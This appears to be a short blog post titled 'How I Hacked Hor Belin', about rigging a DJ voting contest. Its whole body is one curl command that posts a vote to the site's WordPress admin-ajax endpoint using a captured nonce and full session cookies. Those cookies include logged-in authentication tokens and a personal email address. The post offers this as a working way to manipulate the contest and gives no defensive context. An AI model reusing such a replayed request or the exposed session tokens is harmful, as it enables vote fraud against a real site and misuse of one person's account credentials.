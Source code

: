 ```yaml
---
title: "Hello World"
date: "2025-05-14"
slug: "hor-berlin"
---
```


# How I Hacked Hor Belin - Maximum heat DJ competition

curl -X POST 'https://hoer.live/wp-admin/admin-ajax.php' \\n  -H 'Content-Type: application/x-www-form-urlencoded' \\n  -H 'Cookie: wordpress_sec_471f8b8c7626cb332fe703edc58c1a00=jordan.gallant.ct@gmail.com|1745908244|8gvejWrIQOvFzuoG0riBKOjLTQQingRn6laV84EaCNH|7266f124873bce04fb543dde89d68d36d72b0951406defcca85938f590b13e5d; PHPSESSID=v0pqjori952daiefm5cjcfoi3v; shop_popup=2024-09-17 12:58:48; sbjs_migrations=1418474375998=1; sbjs_first_add=fd=2025-04-15 05:25:56|||ep=https://hoer.live/|||rf=(none); sbjs_first=typ=typein|||src=(direct)|||mdm=(none)|||cmp=(none)|||cnt=(none)|||trm=(none)|||id=(none)|||plt=(none)|||fmt=(none)|||tct=(none); cookieConsent=consent; videoMuted=true; wordpress_test_cookie=WP Cookie check; wordpress_logged_in_471f8b8c7626cb332fe703edc58c1a00=jordan.gallant.ct@gmail.com|1745908244|8gvejWrIQOvFzuoG0riBKOjLTQQingRn6laV84EaCNH|37bbd75563f92812f88f53298e02b1e3cb0e9053d4c312a64fdb7ae04d000020; wp_woocommerce_session_471f8b8c7626cb332fe703edc58c1a00=117923||1744871089||1744867489||d6c4a7fdd2d28b8ce7aa9a1bc0074fec; sbjs_current_add=fd=2025-04-15 07:10:47|||ep=https://hoer.live/maximum-heat-contest/?signed=g?signed=g|||rf=https://accounts.google.com/; sbjs_current=typ=referral|||src=accounts.google.com|||mdm=referral|||cmp=(none)|||cnt=/|||trm=(none)|||id=(none)|||plt=(none)|||fmt=(none)|||tct=(none); sbjs_udata=vst=2|||uip=(none)|||uag=Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36; current=Nastya Vogan|https://hoer.live/nastya-vogan-hor-mar-9-2023/|XI5LNhke7q4|36514; currentTime=0; sbjs_session=pgs=21|||cpg=https://hoer.live/contest_entry/719-jgsleepwithme/' \\n  -d 'action=vote&security=b5c9006423&post_id=218037&isVoted=0'
